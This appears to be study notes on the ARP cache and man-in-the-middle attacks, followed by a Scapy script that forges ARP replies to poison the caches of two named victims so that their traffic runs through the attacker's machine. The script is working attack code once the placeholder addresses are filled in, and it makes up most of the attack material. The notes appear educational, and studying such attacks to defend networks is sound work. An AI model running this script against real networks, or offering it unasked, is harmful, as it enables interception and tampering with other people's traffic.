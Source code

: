 
## ARP CACHE

All resolved MAC to IP resolutions

If MAC is not in cache then ARP is used

Dynamic entries last from 2-20 minutes

Default gateway is present at minimum

Can be easily duped(spoofed) by attackers



MITM with ARP
	Poison ARP Cache with:

		Gratuitous ARP

		Proxy ARP

  SCAPY Example Code

```
my_mac = ""             # Insert your MAC address
victim1_mac = ""        # Insert the MAC address of Victim1
victim1_ip = ""         # Insert the IP address of Victim1
victim2_mac = ""        # Insert the MAC address of Victim2
victim2_ip = ""         # Insert the IP address of Victim2

# -- ARP to Poison Victim 1 to pretend to be Victim 2 --
a = Ether()
a.src= my_mac
a.dst= victim1_mac
a.type= 0x0806

b = ARP()
b.op= 2
b.hwsrc= my_mac
b.psrc= victim2_ip
b.hwdst= victim1_mac
b.pdst= victim1_ip

# -- ARP to Poison Victim 2 to pretend to be Victim 1 --
c = Ether()
c.src= my_mac
c.dst= victim2_mac
c.type= 0x0806

d = ARP()
d.op= 2
d.hwsrc= my_mac
d.psrc= victim1_ip
d.hwdst= victim2_mac
d.pdst= victim2_ip

a.show()
b.show()
c.show()
d.show()

sendp(a/b); sendp(c/d)

```
